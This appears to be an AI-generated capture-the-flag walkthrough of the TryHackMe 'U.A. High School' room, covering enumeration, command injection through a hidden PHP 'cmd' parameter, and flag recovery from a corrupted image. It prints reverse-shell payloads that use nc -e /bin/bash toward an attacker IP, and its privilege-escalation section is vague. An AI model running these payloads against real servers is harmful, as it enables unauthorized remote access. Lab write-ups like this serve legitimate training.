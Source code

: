 ## 🎯 Overview & Attack Surface

**Target**: Linux-based web server, HTTP on port 80 (and possibly SSH/22 if later accessible) ([Medium](https://medium.com/%40mysticraganork66/tryhackme-u-a-high-school-writeup-0b5da6214ede?utm_source=chatgpt.com "TryHackMe — U.A. High School Writeup | by 0verlo0ked"))  
**Goal**: Obtain `user.txt` and `root.txt` flags via remote command execution or reverse shell.  
**Vulnerabilities**: Web-based command injection vulnerability via hidden endpoint with `cmd` parameter in a PHP script.

---

## Step 1: Recon & Enumeration

### 1.1 Nmap Scan

Run full scan:

```bash
nmap -sV -sC -A -T4 <target_IP> -Pn
```

Look for open ports—HTTP 80 confirmed; no FTP/SSH until post-shell ([Medium](https://medium.com/%40mysticraganork66/tryhackme-u-a-high-school-writeup-0b5da6214ede?utm_source=chatgpt.com "TryHackMe — U.A. High School Writeup | by 0verlo0ked"))

### 1.2 Browse Web

Navigate to HTTP homepage: normal, static.  
Source includes a `PHPSESSID` cookie—suggests server uses PHP; likely there are `.php` endpoints. ([Medium](https://grish0111.medium.com/tryhackme-u-a-high-school-writeup-85237130a2c8?utm_source=chatgpt.com "Tryhackme — U.A. High School writeup | by Grishma Acharya"))

### 1.3 Directory/File Fuzzing

Use ffuf or gobuster to find hidden endpoints:

```bash
ffuf -u http://<IP>/assets/index.php?FUZZ=id -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -mc all
```

Find parameter name: `cmd` through fuzzing enumeration ([Medium](https://grish0111.medium.com/tryhackme-u-a-high-school-writeup-85237130a2c8?utm_source=chatgpt.com "Tryhackme — U.A. High School writeup | by Grishma Acharya"))

---

## Step 2: Exploitation — Command Injection

### 2.1 Test Command Execution

```bash
curl -s "http://<IP>/assets/index.php?cmd=id" | base64 -d
```

Output a base64 encoded string, decode to get `uid=33(www-data)...`. Confirms server runs commands and returns base64. ([TryHackMe](https://tryhackme.com/room/yueiua?utm_source=chatgpt.com "U.A. High School"))

### 2.2 Blind Enumeration (optional)

To list directory:

```bash
curl -s -G --data-urlencode 'cmd=ls -lah /var/www/html/assets' "http://<IP>/assets/index.php" | base64 -d
```

---

## Step 3: Get a Shell (Optional, if allowed)

### 3.1 Reverse Shell Payload

Set up listener:

```bash
nc -lvnp 4444
```

Then execute:

```
http://<IP>/assets/index.php?cmd=busybox%20nc%20<yourIP>%204444%20-e%20/bin/bash
```

If busybox not available, try:

```bash
cmd=nc%20<yourIP>%204444%20-e%20bash
```

Check for connection as user `www-data` ([Medium](https://medium.com/%40mysticraganork66/tryhackme-u-a-high-school-writeup-0b5da6214ede?utm_source=chatgpt.com "TryHackMe — U.A. High School Writeup | by 0verlo0ked"))

---

## Step 4: Flag Hunting

### 4.1 Locate Hidden Images

Directory listing shows:

```
assets/images/oneforall.jpg
assets/images/yuei.jpg
```

Download:

```bash
wget http://<IP>/assets/images/yuei.jpg
wget http://<IP>/assets/images/oneforall.jpg
```

But one image doesn’t open properly—its headers mismatch the extension. ([X (formerly Twitter)](https://x.com/hoodietramp/status/1827424125402665159?utm_source=chatgpt.com "UA High School TryHackMe Walkthrough | Easy - X"), [Medium](https://grish0111.medium.com/tryhackme-u-a-high-school-writeup-85237130a2c8?utm_source=chatgpt.com "Tryhackme — U.A. High School writeup | by Grishma Acharya"))

### 4.2 Fix Image Format

Use a hex editor or `xxd` to view header:

- JPG header: `FF D8 FF E0 00 10 4A 46 49 46 00`
    
- PNG header: `89 50 4E ...`
    

Correct file extension or header and reopen—reveals the flag or embedded data. ([Medium](https://grish0111.medium.com/tryhackme-u-a-high-school-writeup-85237130a2c8?utm_source=chatgpt.com "Tryhackme — U.A. High School writeup | by Grishma Acharya"))

---

## Step 5: Privilege Escalation (Root)?

Some writeups mention only basic flags and no root escalation. If `root.txt` exists but not accessible by `www-data`, attempt enumeration: check `/etc/passwd`, sudo configuration, readable files. If no escalation path described publicly, room may only include user flag. Confirm in room tasks.

---

## 📋 Sample Documentation Table

|Phase|Purpose|Commands / Payloads|
|---|---|---|
|Nmap scan|Identify open ports/services|`nmap -sCV -T4 <IP>`|
|Fuzzing files|Discover hidden endpoints|`ffuf -u … index.php?FUZZ`|
|Command Injection|Test exploit point|`cmd=id`, `cmd=ls`|
|Reverse shell|Gain remote shell|`nc -lvnp 4444` + remote payload|
|File retrieval|Get hidden files/images|`wget http://<IP>/assets/images/...`|
|Image repair|Extract hidden content|change header bytes, open file|

---

## 🧠 Lessons & Mastery Takeaways

- Hidden parameters in PHP endpoints can allow **command injection**, but only if input flows directly to `system()`, `popen()`, or similar without sanitization.
    
- Use **fuzzing tools** like ffuf with wordlists to reveal hidden endpoints, especially under `/assets/…`.
    
- Base64 output is common in minified API endpoints—**always decode**.
    
- When downloading binary files (images, logs), don’t trust extension—**always inspect magic bytes**.
    
- **Shell delivery** must be tested: busybox vs standard nc, adjust payload URI‑encoding.
    
- Check for privilege escalation vectors if allowed—otherwise, confirm if root flag exists.
    

---

## 🧪 CTF‑Style Challenge

**Reproduce this yourself:**

1. Deploy the target machine and get its IP.
    
2. Run enumeration: nmap + gobuster/ffuf.
    
3. Identify `cmd` injection endpoint.
    
4. Extract `user.txt` content either via shell or via image.
    
5. Document every tool used, every flag captured, every command.
    

**Next step**: Try to script the injection to automate enumeration (e.g. multiple `cmd=cat *.txt` queries), or write a small Bash/Python script to issue queries and parse base64 responses.

---

## ✅ Final Notes

- Room difficulty: listed as _easy_, but range to _medium_ due to image header manipulation and blind injection pattern ([InfoSec Write-ups](https://infosecwriteups.com/u-a-high-school-tryhackme-walkthrough-writeup-beginner-friendly-thm-sunny-802daabf3ac4?utm_source=chatgpt.com "U.A. High School TryHackMe Walkthrough | Writeup"), [blog.razrsec.uk](https://blog.razrsec.uk/lian-yu-walkthrough/?utm_source=chatgpt.com "[TryHackMe] Lian_Yu Walkthrough - razrsec"), [Medium](https://medium.com/%40mysticraganork66/tryhackme-u-a-high-school-writeup-0b5da6214ede?utm_source=chatgpt.com "TryHackMe — U.A. High School Writeup | by 0verlo0ked"), [Medium](https://grish0111.medium.com/tryhackme-u-a-high-school-writeup-85237130a2c8?utm_source=chatgpt.com "Tryhackme — U.A. High School writeup | by Grishma Acharya"), [Medium](https://blog.carsonshaffer.me/tryhackme-lian-yu-writeup-5a364848862b?utm_source=chatgpt.com "TryHackMe | Lian_Yu Writeup - Carson Shaffer"))
    
- Provided flags: both user and sometimes root—double‑check tasks.
    
- Always document your actions: Why tool X? What do you expect? What was the output?
    

---

